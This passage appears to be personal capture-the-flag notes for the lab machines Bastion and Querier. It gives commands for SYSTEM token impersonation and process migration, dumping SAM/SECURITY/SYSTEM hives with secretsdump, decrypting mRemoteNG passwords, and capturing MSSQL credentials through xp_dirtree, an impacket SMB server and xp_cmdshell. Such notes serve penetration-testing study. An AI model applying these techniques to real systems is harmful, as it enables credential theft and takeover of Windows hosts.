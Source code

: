 ```bash
impersonate_token "NT AUTHORITY\SYSTEM"
getuid
root
```

> sometimes we have system, but we cant get into shell or use commands
so, we need to migrate to another process that is running as system

```bash
migrate <svchost.exe PID>
```

## Bastion
Mounting VHD Files - https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25

we are gonna to mount the smb, then mount the VHD file. Then we search For the SAM file.
```bash
# C:\WIndows\System32\SAM | SECURITY | SYSTEM

secretdump.py -sam <sam file> -security <security file> -system <system file> LOCAL
```

```bash
- search mRemoteNg -
- search where the passwords are stored -
- grab the passwords
- grab a mRemoteNG decrypt tool from github
- crack the admin password
- root
```

> hard .-. 

## Querier
Capturing MSSQL Credentials - https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478
```bash
# binwalk = to see what files are inside another file
# its used in steganography a lot, but we can use in files also
binwalk -e <file> 
```
```bash
impacket/mssqlclient.py <domain/username:password@<target ip> -windows-auth
```

in SQL:
```bash
SQL > enable_xp_cmdshell
```

in Kali:
```bash
mkdir share
impacket/smbserver.py -smb2support share share/
```
